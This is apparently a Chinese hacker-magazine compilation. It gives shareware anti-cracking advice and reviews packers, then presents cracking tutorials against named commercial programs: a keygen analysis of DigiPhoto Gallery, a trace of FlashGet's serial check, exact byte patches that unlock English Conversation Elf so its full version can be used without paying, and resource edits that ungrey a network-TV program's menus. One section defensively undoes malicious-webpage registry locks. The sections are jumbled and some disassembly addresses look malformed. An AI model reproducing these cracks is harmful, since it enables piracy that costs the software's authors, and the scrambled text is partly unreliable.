很多软件的作者担心用户需要输入的注册信息过长而引起客户的反感，其实这无伤大雅。一个足够长的注册码可以使 Cracker 难以理解，并且可以有效地预防对注册码的穷举攻击。如果编程水平允许，完全可以在注册信息中包含一些程序运行必须的重要信息或者数据，这样当 Cracker 强行修改了你的程序跳过注册验证，将使它无法正常运行。

### 12. 通过几个特定的系统文件，例如 System.dat 或 Bootlog.txt 来得到当前的系统日期

若你的程序未注册版本进行了时间限制，则可以通过获取一些特殊文件的日期来判断软件是否过期，不要依赖于 GetLocalTime()、GetSystemTime() 这样众所周知的 API 函数来获取系统时间，这样很难防止用户对日期进行非法修改。

### 13. 如果你限制了未注册版本的某些功能，请确定这些功能的代码并没有写入限制版本中

很多程序员经常把软件写成功能限制版本，只有在注册后才能使用全部功能（比如保存文件）。在某些情况下，破解者可以修改程序代码解除这些限制，但如果你的软件中根本就不包含这种功能，Cracker 就很难破解了。

### 14. 如果你的程序被破解了，尽快发布新版本

频繁的升级会使 Cracker 厌烦继续破解你的程序，尤其是当 Cracker 只能使用强行修改你的程序的方法来破解它的时候，因为破解补丁一般对修改后的程序是无效的。在不改变注册算法的前提下，正版注册用户是不会怪罪你频繁升级的。

### 15. 使用当前最优秀的动态压缩/加壳工具来保护你的软件

随时注意新的加壳工具，不断地尝试、使用，并关注哪些是 Cracker 头痛的，使用这些新的工具来保护你软件的新版本。一个好的加壳工具会有效地加大破解难度。

### 16. 如果你的程序通过序列号注册，那么请确保正确的序列号永远不会完整地出现在内存中

这样可以避免通过简单的搜索来得到您程序的正确注册信息，因为很多程序是通过对比正确的序列号和错误的序列号两个字符串来验证注册是否成功的。这使得 Cracker 可以通过简单的搜索或者调试来得到将要对比的正确序列号，而不需要知道你使用了什么方法产生了它。

最好的办法是使用同样的方法来对用户输入的序列号和正确的序列号进行编码，然后对比编码结果，这样就可以使正确的序列号不会出现在内存中。你也可以分很多步来验证用户输入的序列号的正确性，来确定用户输入的序列号并非是使用调试器从内存中得到的。

### 17. 考虑在线注册

互联网是一个很好的注册媒介，在线注册也可以有效地防止你的程序被破解，或增加 Cracker 破解你程序的时间。例如：将一些程序的关键代码或文件保存在你的服务器上，用户点击注册按钮后，程序将注册信息发到服务器上进行验证，若验证成功则发送关键的代码或文件回到客户端，程序正常运行，反之程序则无论如何无法正常运行。若你的软件跟网络密切相关，且又能保证你的用户群都有联网的条件的话，那么我个人强烈推荐你考虑使用一些技术进行网络验证。

### 18. 尽可能多地测试你的软件保护

软件正式发布之前一定要在各类操作系统中进行详细的测试。因为通常一些保护方法、模块或者加壳后的程序可以正常运行在 Win9X 系统下，但是却无法在 NT 内核的操作系统中运行。

icefire：菜鸟们在软件破解上获得初步的成绩后，往往都会有一种迫不及待地想要分析注册算法与注册机的冲动，而且难以克制，但一时又很难找到一个理想的发泄对象（软件）。别急，下面就为大家准备了一个好对象，相信可以一解燃眉之急。

## DigiPhoto Gallery v2.4

### 注册算法分析

DigiPhoto Gallery 是一款将数码照片发布到网页上的工具，是我们本次操刀的对象，用于研究其注册算法。需要使用的破解工具有 OllyDbg 和 DeDe 3.5。

看右边的“事件”，找到“_PROC_004CC758”（图1）。在弹出的反汇编窗口若是能找到 TfmKeyRegister、editKey 和 TfmKeyRegister.editEmail 字段，就说明我们找对了，这就是计算处理注册码的 CALL。现在静态分析已经不能满足我们的需求了，开始动态分析。

### 破解过程

首先运行 DeDe 反汇编该程序，反编译完成后，点击“过程”，在左边出现“单元名”，选中 KeyRegister。运行 OllyDbg，加载 DigiGallery.exe，在 004CC758 处设断点。运行程序，输入 Email：eym@163.com 和注册码 12121212，点注册。程序中断在 004CC758，往下走不久来到 004CC7F3 处，这里有作者给 Hacker 的一句话（哎，其实咱们是 Cracker）。

### 后话

我认为，依目前的技术和设备来讲，是不存在无法被破解的软件的。加密和解密是一个永远争论不休的话题，任何一方找到了新的方法或应用了新的技术，另一方都会很快出现与之对应的新技术和新方法。即使你能完全掌握上面的所有规则并能妥善地理解并应用，也没有任何人敢保证你的软件不会被破解。我们所希望的就是能达到相对难以破解，或者破解你软件所需要的成本超出你软件本身的价值，这样就足够了。

**推荐几个我认为相对来说比较优秀的加壳工具。**

**ASProtect v1.23**  
这个壳在 pack 界当“老大”是毫无异议的，当然这里的老大不仅指它的加密强度，而是在于它开创了壳的新时代。SEH 和各种流行的 anti、BPM 断点清除都出自这里，更为有名的当属 RSA 的使用，使得 demo 版无法被 crack 成完整版。Code_tips 也源于这里。IAT 的处理即使到现在看来也是很强的。它的特长在于各种加密算法的运用，这也是各种壳要学习的地方。但是它的缺点就在于 anti 太温柔，最终让各位老大们轻松地进行研究，这个壳就失败在这个地方。

**Krypton 0.5**  
这个壳的特点是它使用了多线程，据我所知是第一个在壳中使用多线程的工具，但强度一般，兼容性也不够理想，很多情况下根本无法成功给软件加壳。

**Armadillo**  
最新版本应该是 3.20，这是一款非常优秀的保护软件，应用了很多新的优秀技术和理念。可以运用各种手段来保护你的软件，同时也可以为软件加上种种限制，包括时间、次数、启动画面等。

**ACProtect 1.10**  
该壳变形做得好，强度和 ASProtect 新版差不多，并且提供详细的 SDK 和帮助文件。作者是中国人，新版中加入了 API 分解技术，可以将你软件中的一些 API 和壳中包含的 API 进行替换，使加壳后的程序更难脱壳。

**Xtreme-Protector**  
这个可以说是目前最强悍的壳，也是驱动程序使用最为熟练的一个壳。驱动有解码、anti 的作用，多线程解码、RUNTIME 解码、繁多的花指令。用 SOFTICE 脱这个壳基本是不可能的！除非用一个不依靠 INT3、INT1 和 DRx 来下断点的调试器。

**DingBoy's PELock**  
中文名称“幻影（DBPE）”是目前公认的国产加壳工具中相对来说最强悍的。作者 DingBoy 是一个非常优秀的 Cracker 以及 Coder。Anti 比较强悍，而且带有繁杂的花指令，但是跟上述的一些国外加壳工具相比仍然有一些不足，DingBoy 也在不断完善这个工具。

还有新壳不断涌现中……

### 编后感

不客气地说，国内很多共享软件作者都不懂一些基本的破解知识，花很多时间做出加密方案其实不堪一击。国内的水平同国外相比不在一个档次里，软件一经推出，快速被 Crack。长期以来，挫伤了共享软件作者继续开发的积极性，这导致了国内软件整体水平不如国外软件的现象。其实，加密和破解之间的博弈关系非常大，破解起码可以测试一下自己的加密强度。我们推出“密界”专版也是这个目的，希望通过对软件保护的“实战研究”出好的“防”，从而达到巩固保护国产软件版权的目的。

## 密界异踪 / SECRET OF CRACK

```
004CC7EE  E8 9DEEFFFF    CALL DigiGall.004CB690
004CC7F3  8D95 1CFFFFFF  LEA EDX,DWORD PTR SS:[EBP-E4]  ; EDX 保存字符串
```

你能看到 EDX 指向一个字符串“Mr.Hacker! Earn Money.email:ativapro@hotmail.com with hack info”。继续向下走，此处没什么可留意的，一直来到 004CC82C，进入这个 CALL：

```
004CC82C  E8 F3EEFFFF    CALL DigiGall.004CB724
```

再进入 004CB724，来到下面的代码处。

```
004CB730  894D F4        MOV DWORD PTR SS:[EBP-C],ECX   ; 保存注册码
004CB733  8955 F8        MOV DWORD PTR SS:[EBP-8],EDX   ; 保存 email
004CB736  8945 FC        MOV DWORD PTR SS:[EBP-4],EAX
...
004CB764  E8 43000000    CALL DigiGall.004CB7AC
004CB769  8B45 EC        MOV EAX,DWORD PTR SS:[EBP-14]
004CB76C  8B55 F4        MOV EDX,DWORD PTR SS:[EBP-C]
004CB76F  E8 7094F3FF    CALL DigiGall.00404BE4
004CB774  75 04          JNZ SHORT DigiGall.004CB77A
004CB776  C645 E3 01     MOV BYTE PTR SS:[EBP-1D],1
004CB77A  33C0           XOR EAX,EAX
```

进入 004CB764 处的 CALL DigiGall.004CB7AC，这个 CALL 开始计算注册码。先不管真正的注册码，进入 004CB7AC，往下走到 004CB7DF：

```
004CB7DF  B9 3CB84C00    MOV ECX,DigiGall.004CB83C   ; ASCII "Thumbnail Maker"
004CB7E4  BA 54B84C00    MOV EDX,DigiGall.004CB854   ; ASCII "SoftSol"
004CB7E9  B8 64B84C00    MOV EAX,DigiGall.004CB864   ; ASCII "MCP"
```

下面这个 CALL 将把 Email 和几个特定字符串连接起来，并计算出一个 8 位的数值。

```
004CB7EE  E8 71F9FFFF    CALL DigiGall.004CB164   ; 关键 CALL(1)
004CB7F3  6A 00          PUSH 0
004CB7F5  6A 00          PUSH 0
004CB7F7  8B45 F4        MOV EAX,DWORD PTR SS:[EBP-C]
004CB7FA  50             PUSH EAX
004CB7FB  33C9           XOR ECX,ECX
004CB7FD  8B55 F0        MOV EDX,DWORD PTR SS:[EBP-10]
004CB800  8B45 FC        MOV EAX,DWORD PTR SS:[EBP-4]
004CB803  E8 60000000    CALL DigiGall.004CB868   ; 关键 CALL(2)
```

进入 004CB164“CALL(1)”后，来到 004CB1DF 处，此时 EAX 指向连接好的字符串“MCPSoftSolThumbnail Maker…@163.com…”。

```
004CB1DF  8B45 F0        MOV EAX,DWORD PTR SS:[EBP-10]
004CB1E2  E8 31000000    CALL DigiGall.004CB218
```

进入 CALL 004CB218，此处把字符串通过特定算法计算，得出“8069FDE1”，并转成字符后再转为小写“8069fde1”。主要用到 004CB247 处的字符串长度，以及 532D5C 处的码表。

```
004CB244  8B45 FC        MOV EAX,DWORD PTR SS:[EBP-4]
004CB247  E8 4C98F3FF    CALL DigiGall.00404A98   ; 取字符串长度 2B(43)
```

从码表中读取字符：

```
004CB27D  8B0485 532D5C  MOV EAX,DWORD PTR DS:[EAX*4+532D5C]  ; 码表基址
```

经过 004CB164 处的 CALL(1) 和 CALL 004CB218 计算得出字符串 8069fde1，然后进入 CALL 004CB868 处的关键 CALL(2) 进行最后计算。分析时注意堆栈。详细代码可查看光盘“源代码”栏目，按文章名查找即可。

| 项目 | 内容 |
|---|---|
| 适合读者 | 所有爱好 Cracker 技术的朋友 |
| 前置知识 | 注册表知识、OllyDbg 的基本使用、基本跟踪技巧 |
| 难度等级 | 中 |

icefire：Cracker 是一种很特别的群体，在加密与解密的对抗中，Cracker 扮演一种反面角色。他们喜欢深入系统底层、解除软件限制。外界常把 Cracker 与破解者混为一谈，也常因不了解其思维方式而加深对 Crack 的神秘感……

## 当 hacker 遇上 Cracker

### 案例聊说 Cracker 思路

文 / 重剑 [NukeGroup]

### 由恶意网页说起

现在很多黑客通过在网页中嵌入恶意代码，使浏览者在不知不觉中中招，下载木马/病毒、修改注册表、劫持 IE 等。若这些手段摆在 Cracker 面前，常见思路是：先进入相关代码区（静态反汇编或动态调试），再依据蛛丝马迹顺藤摸瓜定位关键处理代码；通过阅读汇编理解其功能、调用关系与实现路径。

### 通过 Cracker 的方式解决恶意网页

现在来看 Cracker 如何清除恶意代码。由于木马/病毒往往会被杀软直接查杀，而修改注册表、篡改浏览器设置等问题通常需要从机制与代码层面定位并解除限制。

工具使用本文不详述，可借助 Cracker 的方法处理。由于“注册表被限制”，可用 OllyDbg 载入 regedit.exe，观察其如何判断并触发“被禁止”的逻辑。

```asm
010073B4  PUSH EBX
010073B5  CALL EDI
010073B7  PUSH EBX
010073B8  CALL DWORD PTR DS:[<&USER32.SetForegroundWindow>]
010073BE  JMP regedit.01007497
010073C3  CALL regedit.010075ED
010073C8  TEST EAX,EAX
010073CA  JE SHORT regedit.010073E6
010073CC  PUSH 10
010073CE  PUSH 40
010073D0  PUSH 28
010073D2  PUSH EBP
010073D3  PUSH DWORD PTR DS:[...]
```

### 注册机的实现

最后定位到关键地址后，可提取真正的注册码并按指定格式拼接（示例：DJNB-WCD7-AOMG）。总体来看算法不算复杂，可拆为两步 CALL 流程，主要是将若干字符串经汇编指令计算并格式化输出。

在注册机编写过程中，重点是字符串提取与连接；其余是将分析得到的汇编逻辑复写。文中还提到两处码表：一处用于生成注册码，另一处体量较大，可从内存或文件工具中提取。整体虽不难，但流程较长，需要较强耐心与细致分析能力。

一载入程序后会停在程序入口点，首先是判断程序是否已经运行，然后就到了上面的代码，这段代码是判断注册表是否禁用；如禁用则显示出错信息。那么我们就看出错信息前一个 call，即 `CALL regedit.010075ED`，F8 单步进入看看：

```asm
010075F7  PUSH EAX ; /pHandle
010075F8  PUSH regedit.01001788 ; Subkey = "Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System"
010075FD  PUSH 80000001 ; hKey = HKEY_CURRENT_USER
01007602  XOR EDI,EDI
01007604  CALL DWORD PTR DS:[<&ADVAPI32.RegOpenKeyW>]
0100760A  TEST EAX,EAX
0100760C  JNZ SHORT regedit.01007651
0100760E  LEA EAX,DWORD PTR SS:[EBP-4]
01007611  MOV DWORD PTR SS:[EBP-4],4
01007618  PUSH EAX ; pBufSize
01007619  LEA EAX,DWORD PTR SS:[EBP-10]
0100761C  PUSH EAX ; pBuffer
0100761D  LEA EAX,DWORD PTR SS:[EBP-C]
01007620  PUSH EAX ; pValueType
01007621  PUSH EDI ; Reserved => NULL
01007622  PUSH regedit.0100175C ; ValueName = "DisableRegistryTools"
01007627  PUSH DWORD PTR SS:[EBP+8] ; hKey
0100762A  CALL DWORD PTR DS:[<&ADVAPI32.RegQueryValueExW>]
01007630  TEST EAX,EAX
```

可以看到这段代码是读取注册表中的 `DisableRegistryTools` 项值，如为 1 则禁用注册表。恢复方法：按上面信息把 `0100760C JNZ SHORT regedit.01007651` 改为 `JMP` 即可永久解除禁用注册表；也可以在进入注册表后，在：

```reg
[HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System]
```

把 `DisableRegistryTools` 的值改为 0 即可。

到此已经解除了注册表禁用，但在 IE 浏览器中的“Internet 选项”里仍有禁止修改主页的问题，更可恶的是恶意代码还设置了一个默认的起始网址。现在来看看怎么解除它：

用 OllyDbg 载入 `IEXPLORE.EXE`（IE 浏览器），由于程序更改后的按钮都变灰了，那就用 `EnableWindow` 下断来到这里：

```asm
022AFD55  PUSH EAX
022AFD56  PUSH 5CF
022AFD5B  PUSH EBX
022AFD5C  CALL EDI
022AFD5E  MOV EBP,DWORD PTR DS:[<&USER32...>]
```

```asm
EnableWin> USER32.EnableWindow
022AFD64  PUSH EAX
022AFD65  CALL EBP ; 这里调用 EnableWindow
...
022AFE25  PUSH EBX
022AFE26  CALL DWORD PTR DS:[<&USER32.GetParent>]
022AFE2C  PUSH EAX
022AFE2D  CALL DWORD PTR DS:[<&SHLWAPI.#136>]
022AFE33  CMP DWORD PTR DS:[22BE0EC],ESI
022AFE39  JE SHORT inetcpl.022AFE6B
022AFE3B  PUSH ESI
```

可以看到在 `022AFE39 JE SHORT inetcpl.022AFE6B` 这句，如果改跳则会解除变灰。那我们就看看前面的比较语句 `022AFE33 CMP DWORD PTR DS:[22BE0EC],ESI`，关键就在这里。看 `22BE0EC` 处的值为 1，应该为 0 才正常。那么在 `22BE0EC` 地址处下硬件断点，重新运行来到这里：

```asm
022B2A33  CALL inetcpl.022B2905
022B2A38  PUSH inetcpl.022A41F0 ; UNICODE "HomePage"
022B2A3D  PUSH DWORD PTR SS:[EBP-4]
022B2A40  MOV DWORD PTR DS:[ESI+30],EAX
022B2A43  CALL inetcpl.022B2905
022B2A48  PUSH inetcpl.022A4204 ; UNICODE "History"
022B2A4D  PUSH DWORD PTR SS:[EBP-4]
022B2A50  MOV DWORD PTR DS:[ESI+34],EAX
022B2A53  CALL inetcpl.022B2905
```

可以看到 `[ESI+34]` 处的值为 `22BE0EC`，这正是 EAX 对 `22BE0EC` 地址进行赋值。看一下前后语句，内容都是 IE 中一些关键选项，可以大概推测这里在进行全局变量初始化。我们看看上面的语句有什么：

```asm
022B294E  PUSH 0
022B2950  PUSH inetcpl.022A4058 ; UNICODE "Software\\Policies\\Microsoft\\Internet Explorer\\Control Panel"
022B2955  PUSH 80000001
022B295A  CALL DWORD PTR DS:[<&SHLWAPI.#125>]
022B2960  TEST EAX,EAX
022B2962  JNZ inetcpl.022B2BC1
022B2968  PUSH ESI
022B2969  PUSH inetcpl.022A40D0 ; UNICODE "GeneralTab"
```

进注册表看一下：

```reg
[HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Internet Explorer\\Control Panel]
"HomePage"=dword:00000001
```

这里的值为 1，只要把 `"HomePage"=dword:00000001` 改为 0 即可解除设置主页的限制。

至此主要难点已经差不多都搞定了，不过还有一些收尾：清除 IE 标题显示的其他信息，并在注册表中搜索这些信息。可以在 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 中找到，那么把这个 `Main` 项删掉吧。另外还有一处是一开机自动打开一个网页，还是在注册表中搜索，会在 `Run` 项目下有一个自启动项，删掉即可。到这里 IE 完全恢复正常。可以看到那些恶意网页只能对注册表做一些修改。

而 Cracker 的方法及思维是那么独特而且又非常有效，所以如果想通过系统来隐藏信息是完全枉然。在加密与解密的对抗中，起主导作用的是思路的对抗。只要人们还有思维，这种对抗就不会停止——作为喜欢黑客的你，遇到这个问题会怎么处理呢？

> 【编后】  
> 刚拿到这篇文章的时候我想了很久，本期另类的文章已经很多，而这篇又是另类中的另类，发还是不发呢？后来问了 wife，她说：另类就说明有新思维，虽然说不定对错，但是为了新的东西去尝试和研究本身就是对技术的尊重。为什么不发？……另类本来就无所谓对错，为什么不发？为什么不去另类？为什么不去追寻技术和真自己？

### Cracker 的思维

从上面实例可以看到，任何通过 CPU 的代码都可以捕……

## 解析“网际快车”破解与算法

icefire：看过了前面的注册码算法，感觉是不是有点想要深入分析？这篇文章我们就来为大家剖析最常见的下载软件，看看它的注册码算法是如何“高深”？你也可以实际操作哦！


大家一定对网际快车这个共享软件不会陌生吧？当你要是从网上搜索到你的最爱，希望在短时间内将它下到你的机子上，就得用到它了。但是共享软件嘛，时不时就会给你找一点小麻烦。当你下得正起劲的时候，它却给你跳出个注册框来，于是为了摒除掉这个“眼中钉，肉中刺”，小弟决定“破”了它！

破解工具我只信赖 W32dasm 和 TRW2000，他们一直是我破解的最爱。废话少说，好多的 mmp 等着我下呢！

打开网际快车，随便输入一些注册信息……于是来到注册表中，找啊找，原来它在 `HKEY_CURRENT_USER\Software\JetCar\JetCar\General` 子键中，里面有一个敏感的单词 `RegPass`。这下可好了，对于这种注册码比较可是最好玩了。

调出 TRW2000，下 `bpx regqueryvalueexa do "db *(esp+8)"`，这个 API 函数专门对付那些将注册信息藏到注册表某一键值下的注册方式。接下来我们就一直按 F5 键，让程序自己运行……这时就耐心地按 F10 键吧，不一会儿我们就来到了如下代码处。

```asm
01670041C5D7  PUSH EAX
01670041C5D8  MOV  ECX,EBX
01670041C5DA  MOV  [ESP+3C],EDI
01670041C5DE  CALL 0049E6AE
01670041C5E3  LEA  ECX,[ESP+14]
01670041C5E7  MOV  [ESP+38],EBP
01670041C5EB  CALL 0049E576
```

```asm
01670041C5F0  MOV  EDX,[ESI]
01670041C5F2  MOV  EAX,[EDX+08]
01670041C5F8  TEST EAX,EAX
01670041C5FA  JZ   NEAR 0041C739
...
01670041C61A  CMP  DWORD [ECX-08],BYTE +05
01670041C61E  JNG  NEAR 0041C739
...
01670041C65F  CMP  EAX,BYTE +2C
01670041C662  JNZ  NEAR 0041C739
```

```asm
如果不等于 44，就跳到 0041C739
0167:0041C668  PUSH  DWORD 004E147C
0167:0041C66D  MOV   ECX,EBX
0167:0041C66F  CALL  00499E42
...（比较序列号前 4 位是否为 fgc）
0167:0041C674  TEST  EAX,EAX
0167:0041C676  JNZ   0041C67E
0167:0041C678  MOV   [ESP+10],EDI
0167:0041C67C  JMP   SHORT 0041C696
0167:0041C67E  PUSH  DWORD 004E1474
0167:0041C683  MOV   ECX,EBX
0167:0041C685  CALL  00499E42
...（继续比较）
0167:0041C68A  TEST  EAX,EAX
0167:0041C68C  JNZ   NEAR 0041C739
```

```asm
0167:0041C72B  JMP 0041C6A8
如果为 0 则走
```

这段代码是一段计算注册码的重要过程。将序列号第 7 位与第 6 位相关值做运算，再与 127 进行与运算，之后与第 8 位相关，最后再加第 5 位并参与后续判断；若不能整除则失败。接着继续在 TRW2000 中跟踪到下面代码。

```asm
0167:0041C6BC  MOVSX ESI,BYTE [ESP+1F]
0167:0041C6C1  MOVSX EDX,BYTE [ESP+1F]
0167:0041C6C6  MOVSX ECX,AH
0167:0041C6C9  AND   ESI,ECX
0167:0041C6CB  IMUL  ESI,EDX
0167:0041C6CE  MOVSX EAX,AL
0167:0041C6D1  ADD   ESI,EAX
0167:0041C6D3  JMP   SHORT 0041C6EF
...
0167:0041C6F3  TEST  EAX,EAX
0167:0041C6F5  JZ    0041C703
...
0167:0041C70E  DIV   ECX
0167:0041C712  SUB   EAX,BYTE +00
0167:0041C715  JZ    0041C721
0167:0041C717  DEC   EAX
0167:0041C718  JNZ   0041C725
0167:0041C71A  CMP   EDX,BYTE +08
0167:0041C71D  JNZ   0041C730
0167:0041C71F  JMP   SHORT 0041C725
```

经过初步跟踪与分析，可发现注册信息需满足：

- email 地址长度大于 5
- 序列号长度为 44
- 且前 4 位必须为 `fgc`（文中描述为固定前缀）

任一条件不符即注册失败。

接着再次输入注册码，按上述条件注意后继续运行 `trw2000` 到如下位置。

```asm
0167:0041C692  MOV  [ESP+10],EAX
0167:0041C696  PUSH BYTE +2C
0167:0041C698  MOV  ECX,EBX
0167:0041C69A  CALL 0049E9A6
0167:0041C69F  MOV  EBP,EAX
```

经过一段较长的 F10 单步后，来到这里：

```asm
0167:0041C6D5  MOV   CL,[ESP+1E]
0167:0041C6D9  MOV   DL,AH
0167:0041C6DB  XOR   ECX,EDX
0167:0041C6DD  MOVSX EDX,BYTE [ESP+1F]
0167:0041C6E2  AND   ECX,BYTE +7F
0167:0041C6E5  IMUL  ECX,EDX
0167:0041C6E8  MOVSX EAX,AL
0167:0041C6EB  ADD   ECX,EAX
0167:0041C6ED  MOV   ESI,ECX
0167:0041C6EF  MOV   EAX,[ESP+10]
...
0167:0041C71D  JNZ   0041C730
0167:0041C71F  JMP   SHORT 0041C725
0167:0041C721  TEST  EDX,EDX
0167:0041C723  JNZ   0041C730
0167:0041C725  INC   EDI
0167:0041C726  CMP   EDI,BYTE +02
0167:0041C729  JNL   0041C74E
```

看到这里可以得出结论：将注册码第 11 位与第 10 位参与与运算得到的值与第 12 位相乘，再加第 9 位后参与除法判断；若余数为 8，则可通过该步校验。

经过三次分段跟踪，最终可推得正确注册码生成逻辑。文末说明可据此编写注册机，但本文重点在于分析该软件注册码算法。

## 《全方位注册码管理手册：英语会话精灵》

文/图 牛渊

现在学习英语口语的软件真是层出不穷，有“轻轻松松学口语”“英语八哥”“单词超人”等等，实在是太多。但我觉得这众多英语口语软件中，还属“英语会话精灵”较出色，因为它是一款非常方便、高效的英语会话学习软件，其中包含12大类1900余句经典、实用的英语会话例句。使用者可以根据自己的学习要求对其进行设置，并可进行自动播放，只要你在使用电脑进行工作、学习或娱乐，就能不知不觉、轻轻松松地掌握各类日常英语会话，提高英语的听力和口语能力了！这样好的软件是不是让你心动呢？不过，当你下载并运行软件后，会突然发现它是一个共享软件，需要花好多好多的Money才能注册成功，然后才能获得所有的功能！如果不注册的话，那么你就只能反复地学习那可怜的一两句常用口语了。唉，对我们这些很穷的上网族来讲，真是要了我们的命啊！——既想学很多的口语，又不想花一分钱，那就只有一个办法咯：破解！嘿嘿，好程序应该共享嘛。

要破解自然工具不能少，W32dasm黄金版（它是我的最爱）、Procdump、Peid、UltraEdit就足够。有了这4件破解器，我们可以进行下面的破解了。

首先，我们要查看一下它是否加壳，结果显示它是用Aspack 2.12加的壳，如图1所示。看来我们遇到了一点小小的麻烦，必须先将它的外壳剥掉，才可以进行下面的破解工作。


提到脱壳，我们可以手动脱壳，也可以利用工具自动脱壳。由于这次脱壳并不是我们所要讨论的内容，所以只要找一个支持Aspack 2.12的脱壳工具进行自动脱壳就可以了。最常用的也是最好用的脱壳工具应属Procdump了。但有个问题需要我们解决，虽然Procdump能脱掉很多种壳，但偏偏我找到的这个版本却不支持Aspack 2.12以上的壳，所以还需要手动来编辑一个脚本文件。在Procdump的安装目录下找到名为Script.ini的文件并用记事本打开它，找到[INDEX]小节，然后在该小节的最后一行加上PIE=Aspack2.12，将光标停到文件的最后面，输入下面的代码并保存退出。

```ini
[Aspack2.12]
L1=OBJR
L2=LOOK 61,75
L3=BP
L4=STEP
OPTL1=00000000
OPTL2=01010001
OPTL3=01010001
OPTL4=00030000
OPTL5=00000000
```

通过这样的改造，Procdump就可以脱掉Aspack 2.12加的壳了，如图2所示。经过脱壳，我们看到了它原来的真面目。


现在我们再运行软件，一开始就弹出了一个对话框，如图3所示，警告我们：此软件未注册，只能使用最简单的几句日常用语！先不用管它，点“确定”，程序继续运行下去。打开下拉菜单，进行软件注册，在注册码处随便输入几个数字，如：123456789，然后点击“确定”弹出一个对话框，如图4所示：注册码无效！好了，要的就是它！


拿出W32dasm，反编译完后，选择“参考”-“串式数据参考”，然后找到“注册码无效”的提示语句。双击它，看看代码，将光标向上移动几行，看到一个“0047A0C0”的跳转，它就是直接跳转到“注册码无效”那一行的语句了。再将光标向上移至“0047A0C0”，看到下面几行有一句“注册成功，请保留好你的注册码”的提示，如图5所示。找到它就好办了，将光标移到“0047A0C0”处，将“0F853D010000”改成“0F843D010000”。

这次看到了刚才那些禁止使用的对话语句都可以选择了吧，好了，现在选一个“谚语格言”来试试，感觉还真不错！

关闭它再重新运行一次，怎么还是弹出没注册的对话框？难道没有注册成功？再一次选择“选择会话内容”，那些禁止使用的对话语句又不可以选择了。再重新注册一次，那些禁止使用的对话语句又恢复使用了！

奇怪，我们爆破看来还不行，一定是程序在启动时有一个进行注册码比较的过程。刚才我们只是简单地将那个跳转改了一下，看似注册成功了，但当我们再一次启动程序时，它还会进行注册码的比较。所以，光改这一个跳转并不能成功。我们继续！


图5

拿出W32dasm进行反编译，选择“参考”-“串式数据参考”，找到那个讨厌的未注册提示，双击它看代码。向上看，有一个有效跳转“004B2CCC”，将光标停在“004B2CCC”处，将“0F85AB000000”改成“0F84AB000000”，再一次运行“英语会话精灵”。怎么样？是不是那个可恶的对话框消失了，赶快单击右键弹出菜单选择“选择会话内容”，是不是又一次看到了那些禁止使用的菜单了？如果你觉得不放心的话，可以再重新运行一次程序，那个对话框可是彻底地从你的眼皮底下消失了哦，所有限制的功能也都能使用了！

再一次运行“英语会话精灵”还是弹出未注册的对话框（当然了，你还没注册呢！）先不用管它，注册。和刚才一样随便输入几个数字，点“确定”，看看是不是注册成功了？单击右键弹出菜单选择“选择会话内容”，这次看到了刚才那些禁止使用的对话语句都可以选择了吧。

这次的破解，遇到的是一个重启程序后再一次进行注册码比较的程序，破解它的关键在于要准确地找到关键的注册码比较处，然后找关键跳转，进行正确的修改，这样就可以快速地破解它了。学会软件注册的原理，这样一来，下一次我们碰到相似的软件，破解起来就会得心应手了！

**难度等级**：低  
**适合读者**：破解爱好者

Icefire：破解一直是很多初入门的朋友认为很神奇的技术，因为常常看见晦涩的汇编代码，自己也就立即停止不前了，长期这样下来，很多朋友就觉得破解是遥不可及的技术了——其实，这是错误的！在下面的文章中，我们将看到没有动用任何逆向工程的相关技术，甚至没有分析过一行软件的反汇编代码，仅仅通过一个强大的资源分析工具就达到了突破软件限制的目的，而且该方法原理简单，易操作性强，就算你身为菜鸟，也一样可以运用自如！别怕，静下心来跟着做，You can do it!

## 不用写一遍脱壳软件——巧用资源编辑工具突破某著名网络电视软件功能限制

◎ 文/图 木头


现在很多共享软件都通过“功能限制”的方式来促进用户注册，一般经常被限制的功能有保存、打印、编辑等。通常的逆向工程分析方法是追踪到软件判断注册与否的核心例程，然后修改关键性的跳转或者修改关键性数据来使软件认为自身已经注册，从而开放那些被限制的功能。这种方法要求分析者对逆向工程和汇编语言操作非常熟悉，入门的门槛较高。而更多软件的功能限制仅仅是通过“灰色菜单”“灰色按钮”等方式来体现的。

这些形式保护的软件，就算是菜鸟级的用户，只要手头有合适的工具，也能轻易解除软件的功能限制。当然，“功能限制”型的软件也能分为两类：一类是软件内所有功能的代码都存在，只是由“注册与否”的开关控制那些“被保护”的功能是否可以被用户使用；另一类是“被保护”的功能的代码根本就没有写入软件的共享版本，只有注册后，用户才能得到全功能的版本。我们这里所针对的情况当然应该是第一类。

以一个常用的网络电视软件为例，未注册时，它通过灰色菜单的形式限制用户的使用，如图1所示。


面对这种限制，我们的分析可以从两个角度着手：一是从API角度，让一个菜单项变灰，可以调用 `EnableWindow` 或者 `EnableMenuItem` 等系统API使窗口变为Disable模式，从而达到变灰禁止使用的效果；二是从资源文件角度，在编写程序时可在RC资源文件中指定菜单项初始状态，如果指定为Disable，则程序运行时该菜单项会处于灰色不可用状态。

第一种方法是通常的调试方法，难度较大。如果软件作者采用的是定义RC资源属性的方法，那么我们可以利用第二种方法，结合资源编辑工具软件，达到突破功能限制的目的。

要分析、修改软件资源，首先需要一款强大的资源编辑分析软件。常用工具有Exescope、ResHack、FreeRes等。

- **Exescope**：通用型资源查看、编辑软件，对VC++编写的Windows程序有良好支持。
- **ResHack**：资源脚本能力强，支持的资源类型很多。
- **FreeRes**：支持从加壳程序中提取资源。

针对图1所示软件，先脱壳。由于目标程序采用Delphi编写，资源多为Delphi自定义RCData形式，而ResHack对RCData支持较好，因此选择ResHack打开目标软件，如图2所示。


展开RCData栏后可以看到软件的RCData数据，如图3所示。由于菜单数据出现在主界面中，选择TFORM1并查看其包含的RCData，可在右侧窗口中搜索到菜单资源内容。


在资源段中可清楚看到 `Enable = False` 这一行代码，这正是菜单项变灰的原因。因此将其改为 `Enable = True`，如图5所示。


修改后，左上角“编译脚本”按钮可用，重新编译生成新的RCData。保存并替换EXE后，菜单可正常选取，如图6所示。


需要注意：灰色菜单较多时，在ResHack中需要反复把 `False` 改为 `True`。且若上级菜单未启用，下级子菜单仍可能是灰色；修改子菜单前应先保证一级菜单为True，否则程序运行可能报错。

另外，Delphi软件资源格式较特殊，脱壳后的程序通常只适合用ResHack修改一次；若在已修改文件上继续修改，生成的新EXE可能出现运行错误。

